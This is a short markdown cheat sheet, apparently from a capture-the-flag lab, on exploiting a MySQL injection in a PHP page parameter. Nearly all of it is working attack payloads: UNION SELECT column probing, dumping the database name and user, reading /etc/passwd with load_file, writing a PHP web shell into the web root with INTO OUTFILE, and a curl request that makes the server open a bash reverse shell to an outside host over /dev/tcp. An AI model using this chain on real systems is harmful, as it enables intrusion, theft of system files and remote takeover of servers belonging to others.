 # MySQL Paramater Injection

## increment order by until the record is not returned 
```
http://10.10.10.143/room.php?cod=1 order by 5
```

## look for injectable columns
```
http://10.10.10.143/room.php?cod=-1 union select 1,2,3,4,5,6,7
```

## get db info
```
$URL -1 union select 1,database(),user(),4,5,6,7
```

## read files
```
$URL -1 union select 1,load_file('/etc/passwd'),3,4,5,6,7
```

## Here's and example of injecting a param (with known number of cols) to execute a shell

```
http://10.10.10.143/room.php?cod=-1 union select 1,'<?php
system($_REQUEST["exec"]);?>',3,4,5,6,7 into outfile '/var/www/html/pwned.php'
```

## Then exploited with

```
curl -X POST http://10.10.10.143/pwned.php --data-urlencode 'exec=bash -c
"bash -i >& /dev/tcp/10.10.14.4/1234 0>&1"'
```
